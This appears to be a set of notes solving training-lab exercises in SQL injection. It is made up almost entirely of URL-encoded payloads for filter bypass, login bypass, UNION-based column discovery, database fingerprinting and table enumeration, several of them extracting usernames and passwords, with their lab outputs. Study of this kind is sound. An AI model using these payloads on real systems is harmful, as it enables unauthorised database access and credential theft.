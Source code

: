 # SQLi

## Retrieving hidden data

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
/filter?category=Food+%26+Drink'+OR+1=1--
```

## Subverting application logic

### SQL injection vulnerability allowing login bypass

Username: `administrator'--`

## Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

### Finding columns with a useful data type in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK
```

### Using an SQL injection UNION attack to retrieve interesting data
```
?category=Pets'+UNION+SELECT+username,password+FROM+users--
```
Credentials retrieved: `administrator` / `sip8ds`

### Retrieving multiple values within a single column
```
?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

wiener~peter
administrator~5v82nt
carlos~montoya
```

## Examining the database

### SQL injection attack, querying the database type and version on Oracle
```
?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft
```
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases
```
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### SQL injection attack, listing the database contents on Oracle
```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k
```